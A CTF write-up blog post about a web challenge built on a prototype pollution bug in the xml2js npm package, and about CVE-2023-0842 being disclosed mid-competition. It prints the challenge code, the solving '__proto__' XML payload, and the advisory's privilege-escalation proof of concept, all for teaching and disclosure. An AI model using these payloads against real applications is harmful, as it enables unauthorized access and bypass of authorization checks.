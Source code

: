 +++
title = 'That Time My CTF Challenge Got a CVE Mid-Competition'
date = 2023-12-17
draft = false
summary = 'A short story on how a vulnerability, ignored for almost three years, is made public mid CTF making the solution to the challenge public.'
tags = ['Prototype Pollution', 'CVE', 'CTF', 'Writeup']
+++
Every year I have to create a variety of challenges for the Icelandic ECSC Qualifiers & Finals as
part of my work for the [Icelandic CTF Association](https://ggfi.is). When creating a CTF, several
aspects must be tested:

* Ensure that the perceived difficulty of the challenge is accurate.
* Check for any unintended solutions to the challenge.
* Verify that the challenge is in fact solvable.
* Confirm that the objective of the challenge is clear, i.e. not (too) guessy.

One question I didn't realize I had to ask myself when creating a CTF challenge:

> Will the CTF challenge receive a CVE and an accompanying advisory in the middle of the competition
> drastically changing the difficulty?

This year, one of my medium-difficulty challenges unexpectedly transformed into a super simple 
introductory challenge in the middle of the qualifiers. This happened because the vulnerability 
in the challenge was made public with an accompanying advisory during the competition.

## Inspiration For The Challenge
I participated in KalmarCTF in early March, one of the challenges I solved was 2cool4school. While
working on the challenge I stumbled upon a prototype pollution issue, which later turned out to be a 
dead end. Post-CTF, the challenge's source code was released, meaning I could figure out the cause
of the prototype pollution. It turned out that the prototype pollution I resided in a third-party 
npm package, `xml2js`.

Looking closer I notice that the challenge is using the latest version of the package and that the
package has over 18 million weekly downloads. Interesting, but how severe is the vulnerability? 
After playing around with the bug a bit I discover that the bug is quite limited, bummer. Turns 
out that the prototype of the object is being replaced and not modified, meaning that the inherited 
prototype of other objects are safe.

Curious to know if anyone else had flagged this concern, I searched the GitHub issues for the package.
It turns out that Dylan Katz had [reported](https://github.com/Leonidas-from-XIV/node-xml2js/issues/593) 
this issue back in 2020, and there's already a [pull request](https://github.com/Leonidas-from-XIV/node-xml2js/pull/603) from 2021 fixing the issue.

So, turns out, the bug is boring. Someone already reported it, and it seems to be a
non-issue since it hasn't been fixed. Well, at least we can make this into a somewhat interesting 
CTF challenge.

## SO Fresh SO Clean
The challenge, named *SO Fresh SO Clean*, is a rather simple web challenge. You receive a link to a
website as well as some source code. The website is a simple shopping website with seemingly no
functionality other than allowing you to add items to your cart. One of the items is a flag but if
you try to add the flag to your cart you will receive an error message stating that it is an
*Invalid item*. Let's take a look at the code:

{{< highlight JavaScript >}}
const express = require('express');
const path = require('node:path');
const bodyParser = require('body-parser');
const { readFile } = require('fs/promises');
const parseString = require('xml2js').parseString;

const app = express()
const port = 5000

app.use(express.static('static'))
app.use(bodyParser.text({ type: 'text/xml' }))

function invalidItem(item) {
    return JSON.stringify(item).includes('flag');
}

app.get('/', (req, res) => {
    res.sendFile('index.html', { root: path.join(__dirname, 'templates')});
})

app.get('/cart', async (req, res) => {
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    let html = cartTemplate.replaceAll('{{ item }}', 'Your cart is empty');
    res.setHeader('Content-Type', 'text/html');
    res.send(html);
})

app.post('/cart', async (req, res) => {
    let cart = null;
    let html = null;
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    try {
        parseString(req.body, function (err, cart) {
            if (invalidItem(cart)) {
                res.statusCode = 400;
                return res.send('Invalid item!');
            }
            if (cart.item.includes('flag')) {
                html = cartTemplate.replaceAll('{{ item }}', process.env.FLAG || 'gg{not_a_flag}');
            } else {
                html = cartTemplate.replaceAll('{{ item }}', cart.item)
            }
            res.setHeader('Content-Type', 'text/html');
            res.send(html);
        });
    } catch(e) {
        res.statusCode = 500;
        return res.send(e.message);
    }
})  

app.listen(port, () => {
    console.log(`listening on port ${port}`);
})
{{< /highlight >}}

Most of the code is just boilerplate. We can see that the main logic is in the method handling
`POST /cart`. After reading through the code, it should be clear that the objective of the challenge
is to place the `flag` item in the cart. This is because we receive the flag for the challenge if 
the cart includes the `flag` item. To get to that point we must first ensure that the call to
`invalidItem('cart')` returns false.

{{< highlight JavaScript >}}
function invalidItem(item) {
    return JSON.stringify(item).includes('flag');
}
{{< /highlight >}}

We now know that two conditions must be met:

* `JSON.stringify(item).includes('flag')` must be false.
* `cart.item.includes('flag')` must be true.

How do we achieve this?

### The Solution
When we look at the request made to `POST /cart` we can see that an XML object is being sent to the
backend:

{{< highlight XML >}}
<item>hat</item>
{{< /highlight >}}

Now looking back at the code we can see that the function used for parsing the object, `parseString`,
is imported from `xml2js`. The package's description reads:

> Simple XML to JavaScript object converter.

For some this might ring warning bells immediately as it is a classic example of how Prototype 
Pollution vulnerabilities can arise. For those unfamiliar with prototype pollution you can read 
about it [here](https://portswigger.net/web-security/prototype-pollution).

Now we want to try and pollute the prototype of the `cart` object. We do this by submitting a XML
object that looks something like this:

{{< highlight XML >}}
<__proto__><item>flag</item></__proto__>
{{< /highlight >}}

Submitting the above object would result in the flag. Why does this work? Let's take a look at
how the object differs when using `__proto__` and when we don't:

{{< highlight JavaScript >}}
// <item>flag</item>
JSON.stringify(item) // {"item": "flag"}
cart.item // "flag"

JSON.stringify(item).includes('flag') // true
cart.item.includes('flag') // true

// <__proto__><item>flag</item></__proto__>
JSON.stringify(item) // {}
cart.item // ["flag"]

JSON.stringify(item).includes('flag') // false
cart.item.includes('flag') // true
{{< /highlight >}}

The reason that `JSON.stringify(item)` returns an empty JSON object while `cart.item` returns
the item is due to the prototype being polluted. This means the actual object does not include
the `flag` item, but its prototype does. When we call `cart.item`, JavaScript won't find the value
in the object itself so JavaScript looks into the object's prototype next where it finds the item.

## CVE-2023-0842
On April 10th Fluid Attacks discloses CVE-2023-0842, a prototype pollution vulnerability affecting
`xml2js` - the same vulnerability as in the challenge. They publish an advisory which can be found
[here](https://fluidattacks.com/advisories/myers/). Reading through the advisory, we find an example
of how the package can lead to an exploitable vulnerability.

{{< highlight JavaScript >}}
var parseString = require('xml2js').parseString;

let normal_user_request    = "<role>admin</role>";
let malicious_user_request = "<__proto__><role>admin</role></__proto__>";

const update_user = (userProp) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    parseString(userProp, function (err, user) {
        if(user.hasOwnProperty("role") && user?.role.toLowerCase() === "admin") {
            console.log("Unauthorized Action");
        } else {
            console.log(user?.role[0]);
        }
    });
}

update_user(normal_user_request);
update_user(malicious_user_request);
{{< /highlight >}}

When the advisory was published, the competitors no longer needed to learn about prototype pollution 
or figure out how to solve the challenge. They could instead just search for vulnerabilities 
affecting `xml2js`, read the advisory and try out the exploit showed in the advisory. 

## Conclusion
The advisory made my introductory prototype pollution challenge into a very simple *search for the CVE*
challenge mid-competition. This could also be seen in the number of solves before and after the
advisory. Luckily this didn't change too much as people could always discover the GitHub issue from
bwolff although that would still require at least a little bit of research.

We went from discovering an unpatched vulnerability during a CTF, transforming it into a CTF challenge,
and then witnessing the vulnerability become public during the CTF competition. The coincidence of a
vulnerability that had been overlooked for almost three years getting patched and disclosed while I 
hosted a CTF challenge based on it is interesting but something I hope will not happen again. 

## Timeline
* [2020-11-30 - bwolff reports the vulnerability on behalf of Dylan Katz](https://github.com/Leonidas-from-XIV/node-xml2js/issues/593).
* [2021-03-02 - autopulated submits a PR fixing the vulnerability](https://github.com/Leonidas-from-XIV/node-xml2js/pull/603).
* 2023-02-14 - Fluid Attacks discover the vulnerability and contact vendor.
* 2023-03-05 - I discover the vulnerability.
* 2023-03-08 - I create a challenge based on the vulnerability.
* 2023-04-01 - The Icelandic qualifiers start.
* [2023-04-07 - An issue is made on GitHub mentioning the vulnerability](https://github.com/Leonidas-from-XIV/node-xml2js/issues/663).
* 2023-04-10 - The vulnerability is disclosed.
* 2023-04-30 - The CTF ends.
